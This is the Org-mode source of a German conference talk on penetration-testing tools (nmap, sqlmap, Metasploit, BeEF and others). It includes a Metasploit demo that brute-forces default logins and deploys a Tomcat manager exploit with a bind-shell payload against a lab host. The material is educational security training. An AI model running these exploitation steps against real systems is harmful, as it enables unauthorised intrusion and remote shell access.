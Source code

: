 #+STARTUP: beamer
#+LaTeX_CLASS: beamer
#+MACRO: BEAMERMODE presentation
#+MACRO: BEAMERTHEME Berlin
#+MACRO: BEAMERCOLORTHEME crane
#+MACRO: BEAMERINSTITUTE Linuxwochen 2012
#+TITLE: A Pentester's Best Friends
#+AUTHOR: Michael Kohl, Ludwig Hammel

* Einleitung
** Die Vortragenden
*** Penetration Tester und Software-Entwickler
*** base-camp IT Security & Solutions
*** http://www.base-camp.cc/
** Warum Penetration Testing?
*** Schwachstellen identifizieren
*** Aufdecken von Fehlern aus falscher Bedienung
*** Erhöhung der Sicherheit auf technischer und organisatorischer Ebene
*** externe Validierung der Sicherheit
** Ablauf eines Penetration Test
*** Pre-Engagement
**** Zieldefinition, Umfang, Rahmenbedingungen
*** Intelligence Gathering
**** Footprinting, Portscans, Google, Social Media
*** Threat Modeling
**** Angriffsvektor, interessante Ziele
*** Vulnerability Analysis
**** Port- u. Servicescans, Banner Grabbing, Traffic Monitoring
*** Exploitation
**** Buffer Overflows, SQL Injections, Bruteforce
*** Post Exploitation
**** Weitere Exploits, Aufräumen
* Tools
** owtf
*** Offensive Web Testing Framework
*** Information Gathering
*** Vulnerability Analysis
*** passsive, semi-passive, active
*** On-the-fly Report Updates
*** Demo :noexport:
****
** Nmap
*** Ursprünglich Portscanner
*** Mittlerweile umfangreicher Security-Scanner
*** Intelligence Gathering & Vulnerability Analysis
*** Nmap Scripting Engine (NSE)
** Nmap Demo
*** Simpler Portscan
**** =nmap linuxwochen.at=
*** Komplizierterer Portscan (OS Detection, Port-Range, Service/Version Detection)
**** =nmap -O -sV -p 1-2048 linuxwochen.at=
*** Portscan mit Standardskripts (Wie oben plus Standardskripts und Traceroute)
****  =nmap -A linuxwochen.at=
*** Portscan mit Extra Skripts
**** =nmap --script=http-generator,banner -p21,80 linuxwochen.at=
** NSE kurz
*** Nmap Scripting Engine
*** Lua
*** > 350 Skripts
*** Kategorien: default, discovery, dos, exploit, malware, safe...
** NSE Beispiel
...
** sqlmap
*** Für MySQL, Oracle, PostgreSQL, Microsoft SQL Server, Microsoft Access, SQLite, Firebird, Sybase und SAP MaxDB
*** Verschiedene SQL Injection Techniken
*** Enumeration von Benutzern, Tabellen, Benutzerrollen und -berechtigungen...
*** Datenbanken/Tabellen dumpen
*** File Upload/Download bei MySQL, PostgreSQL und Microsoft SQL Server
*** Demo?
** Metasploit
*** Sehr umfangreiches Pen Testing Framework
*** Geschrieben und erweiterbar in Ruby (früher Perl)
*** Scanning, Vulnerability Analysis, Exploitation, Post Exploitation
*** Demo :noexport:
msf > db_connect ...

sudo nmap -sT -Pn 10.20.30.164 -oX metasploitable.xml

msf > db_import metasploitable.xml
[*] Importing 'Nmap XML' data
[*] Importing host 10.20.30.164
[*] Successfully imported /Users/michi/metasploitable.xml

msf > db_services

msf > setg RHOSTS 10.20.30.164
RHOSTS => 10.20.30.164

msf > use scanner/ftp/anonymous
msf auxiliary(anonymous) > show options
msf auxiliary(anonymous) > run

msf > search postgres

msf auxiliary(anonymous) > use scanner/postgres/postgres_login
msf auxiliary(postgres_login) > show options

msf auxiliary(postgres_login) > run
BAZINGA!

psql -h 192.168.178.30 -U postgres
\\du

msf > use scanner/http/tomcat_mgr_login
msf auxiliary(tomcat_mgr_login) > set RPORT 8180
msf auxiliary(tomcat_mgr_login) > run
BAZINGA!

msf exploit(tomcat_mgr_deploy) > set USERNAME tomcat
USERNAME => tomcat
msf exploit(tomcat_mgr_deploy) > set PASSWORD tomcat
PASSWORD => tomcat
msf exploit(tomcat_mgr_deploy) > set RHOST 10.20.30.164
RHOST => 192.168.178.30
msf exploit(tomcat_mgr_deploy) > set PAYLOAD linux/x86/shell_bind_tcp
msf exploit(tomcat_mgr_deploy) > exploit -j
msf exploit(tomcat_mgr_deploy) > sessions -l
msf exploit(tomcat_mgr_deploy) > sessions -i n
** Arachni
*** Web Application Security Scanner Framework
*** Geschrieben in Ruby
*** Spider mit asynchronem HTTP
*** Als Library verwendbar
*** Web Interface
*** Demo :noexport:
**** archachni http://linuxwochen,at
** BeEF
*** Browser Exploitation Framework
*** Geschrieben in Ruby und JavaScript
*** Fokussiert auf Browser Schwachstellen
*** Clientseitige Angriffe
** Dradis
*** Post Exploitation Reporting
*** Geschrieben in Ruby
** Diverse Tools
*** ab/Siege: Lasttests, Benchmarking, DoS
*** John the Ripper:
*** ophcrack:
*** Kombinierbar
* Distributionen
** Distributionen
*** BackTrack
*** Grml
*** OWASP Labrat
**** Open Web Application Security Project
*** ophcrack Live CD
* Links
** Links
*** http://base-camp.cc
*** http://dradisframework.org/
*** http://www.securitydistro.com/
*** Metasploit: http://www.metasploit.com/
*** Siege: http://www.joedog.org/
*** John the Ripper: http://www.openwall.com/john/
*** BeEF: http://beefproject.com/
